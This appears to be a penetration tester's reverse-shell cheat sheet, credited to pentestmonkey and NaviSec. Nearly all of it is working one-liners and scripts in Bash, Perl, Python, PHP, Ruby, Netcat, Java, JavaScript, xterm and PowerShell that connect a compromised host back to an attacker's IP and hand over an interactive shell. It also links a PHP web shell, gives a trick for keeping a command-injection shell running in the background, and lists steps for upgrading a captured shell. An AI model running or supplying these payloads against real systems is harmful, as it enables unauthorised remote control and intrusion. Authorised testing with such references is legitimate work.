 ### Find out which programs are installed
---
```
for item in $(echo "nmap nc perl python ruby gcc wget sudo curl"); do which $item; done`
```
<br>

### Bash
---
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl
---
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
---
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
---
My favorite web shell: [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php)
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
For those situations when a PHP command injection shell spawns and immediately dies, this will run in the background:
```
function execInBackground($cmd) { if (substr(php_uname(), 0, 7) == "Windows"){ pclose(popen("start /B ". $cmd, "r"));  } else { exec($cmd . " > /dev/null &"); } } execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.221/8081 0>&1'");
```

### Ruby
---
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
---
```
nc -e /bin/sh 10.0.0.1 1234
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java
---
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### JavaScript
---
```
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(5500, '192.168.60.124');
```
```
require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
```

### xterm
---
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorize the target to connect to you (command also run on your host):
```
xhost +targetip
```

### Powershell Reverse Shell (Inside Powershell.exe)
---
```
$client = New-Object System.Net.Sockets.TCPClient("127.0.0.1",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Powershell Reverse Shell (Inside cmd)
---
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
### Upgrading Shells
---
1. `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Background shell with `Ctrl+Z`
3. `echo $TERM && tput lines && tput cols` - (note this, it will disappear)
4. `stty raw -echo`
5. `fg`
6. `reset`
7. `export SHELL=bash`
8. `export TERM=xterm-256color` - (refer to step 3)
9. `stty rows 38 columns 116` - (refer to step 3)

<br>
<br>

**Sources:**

- [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/) 
- [NaviSec Delta](https://delta.navisec.io/reverse-shell-reference/#upgrading-shells)